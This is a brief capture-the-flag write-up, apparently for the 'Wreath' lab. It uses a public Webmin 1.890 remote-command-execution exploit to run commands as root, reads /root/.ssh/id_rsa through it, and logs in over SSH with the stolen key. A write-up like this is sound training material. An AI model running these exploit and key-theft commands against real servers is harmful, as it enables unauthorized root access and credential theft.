 ![](../../attachment/30ef18c8701336b09f6bbd128bf0bdbe.png)
Adding to /etc/hosts:
![](../../attachment/f5ef140c434ab25419ab229a24c53607.png)

Now visiting https://thomaswreath.thm:10000:
![](../../attachment/1b3f61b35e62c3f0f2d0d796553d40d8.png)
We have a login page

Searching webmin on searchsploit:
```
searchsploit Webmin
```
According to nmap scan we have 1.890 Webmin.

Using this [exploit](https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE/blob/master/webmin-1.890_exploit.py)
```
python3 webmin-1.890_exploit.py thomaswreath.thm 10000 whoami
```
![](../../attachment/f16b39d9b01d7477a1276582dc8fbe68.png)
We are root user and we have command execution.

Now trying to get ssh keys:
```
python3 webmin-1.890_exploit.py thomaswreath.thm 10000 'cat /root/.ssh/id_rsa'
```

![](../../attachment/0fb3d13171636f0a38d997e3407e2f76.png)
We have ssh keys.

Copy to a file id_rsa and change permissions so that the permissions are not too open:
```
chmod 600 id_rsa
```
Now connect using ssh:
```
ssh root@thomaswreath.thm -i id_rsa
```
![](../../attachment/a4dba2d77a30bad16923e9071f6787bb.png)

